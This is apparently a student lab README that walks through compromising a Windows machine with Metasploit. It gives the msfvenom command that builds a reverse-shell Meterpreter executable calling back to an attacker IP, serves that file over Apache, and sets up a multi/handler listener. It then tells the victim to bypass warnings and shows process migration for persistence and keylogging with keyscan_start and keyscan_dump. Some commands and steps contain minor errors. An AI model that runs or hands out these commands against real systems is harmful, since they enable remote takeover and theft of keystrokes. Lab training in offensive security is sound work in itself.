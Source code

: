 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-07 110001](https://github.com/user-attachments/assets/8cde1e5a-5319-4f72-81c4-9f09f8204798)




Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2025-04-07 111202](https://github.com/user-attachments/assets/a5850360-7890-4b7d-b3bf-f84f7eec2f96)





copy the fun.exe into the apache /var/www/html folder
![2](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/37d7e507-5d47-4ddb-ba93-586f6d73a51b)


Start apache server
sudo systemctl apache2 start

![3](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/0d0224f9-d80c-42b9-a3ab-09b48da66a27)



Check the status of apache2
![4](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/77516604-9c4f-4317-a188-c41de4625542)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![6](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/938f78c9-0e8a-42ef-847c-a7cee7393beb)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![8](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/4cf82361-ac00-46ab-92a2-3f09592d98d5)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![8](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/fee0700e-bafd-4e76-af72-f5ac23a5d6ba)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![ss](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/b2d36ca1-64a2-4863-a648-4ef4a8727dd9)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![9](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/85fb473c-59fe-4042-b163-552fddc735d1)



keyscan_dump	Shows the keystrokes captured so far
![10](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/785ef849-9095-4065-b38a-54b544a0c440)



## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
